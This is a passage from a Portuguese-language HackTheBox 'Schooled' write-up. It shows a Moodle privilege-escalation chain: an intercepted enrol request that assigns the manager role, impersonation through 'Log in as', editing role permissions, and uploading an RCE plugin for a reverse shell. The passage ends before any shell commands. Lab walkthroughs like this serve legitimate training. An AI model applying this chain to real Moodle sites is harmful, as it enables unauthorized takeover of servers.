 Mesmo não funcionando adequadamente a PoC em nosso cenário, após entender exatamente os passos necessários, foi possível obter execução de código na máquina, conforme passos abaixo:

* Primeiro foi necessário identificar qual usuário na plataforma poderia ter o privilégio de manager. Com base nas informações obtidas a partire de reconhecimento do site institucional, **Lianne Carter** é a gerente da escola e provavelmente possui os privilégios dos quais precisamos.

* Também tomei nota sobre o Profile ID do usuário **Manuel Philips**, que foi obtido ao navegar à sua página no link  `http://moodle.schooled.htb/moodle/user/profile.php?id=24`.

* A exploração iniciou-se por fazer a inscrição da gerente da escola na turma de matemática e, interceptando a requisição utilizando o Burp Suite, enviei a mesma ao Repeater e, além da requisição inicial, fiz uma nova para nos conceder o priviégio de Manager no curso, por atribuir o valor `roleid=1` e substituir o ID do usuário pelo identificado previamente, conforme visto no video no repositório.

  ```http
  GET /moodle/enrol/manual/ajax.php?mform_showmore_main=0&id=5&action=enrol&enrolid=10&sesskey=KbJYqTapFc&_qf__enrol_manual_enrol_users_form=1&mform_showmore_id_main=0&userlist%5B%5D=24&roletoassign=1&startdate=4&duration= HTTP/1.1
  Host: moodle.schooled.htb
  Accept: */*
  X-Requested-With: XMLHttpRequest
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
  Content-Type: application/json
  Referer: http://moodle.schooled.htb/moodle/user/index.php?id=5
  Accept-Encoding: gzip, deflate
  Accept-Language: en-US,en;q=0.9
  Cookie: MoodleSession=jil2s8i0vj0gq3vojfki6e7rtq
  Connection: close
  ```

* Agora como um Administrador do curso, acessando um perfil de usuário podemos utilizar a função "Log in as", que nos permitiu acessar a plataforma como o usuário Lianne Carter.

  ![HTB Schooled - Impersonating Manager in Moodle](https://i.imgur.com/zRjimbq.png){: .align-center}
  
* Agora como Lianne, deveríamos ter privilégios de realizar o upload do plugin diretamente, uma vez que a opção "Site Administration" é exibida à esquerda, porém tais privilégios não são habilitados por padrão. Para tal atividade, precisamos editar a role acessando o menu "Site Administration" > "Users" e, na aba "Permissions", selecionei "Define Roles".

  ![HTB Schooled - Adjusting Role Definitions](https://i.imgur.com/6XmydvH.png)
  
* Selecionei a role **Manager** e, clicando no botão "Edit", interceptei a requisição e substitui o dado enviado pelo encontrado no repositório, qeu me concederia privilégios totais na aplicação.

  ![HTB Schooled - Modifying Manager role](https://i.imgur.com/lm0NOX7.png){: .align-center}

  ![HTB Schooled - Appending payload to Edit Request](https://i.imgur.com/5L28UqN.png){: .align-center}
  
* Agora, navegando em "Site Administration" > "Plugins" podemos ver a opção para instalação, para o qual o arquivo `rce.zip`, também disponibilizado no portal, foi carregado, nos permitindo executar comandos remotamente e obter um shell reverso a partir de chamadas na URL do plugin, conforme abaixo:
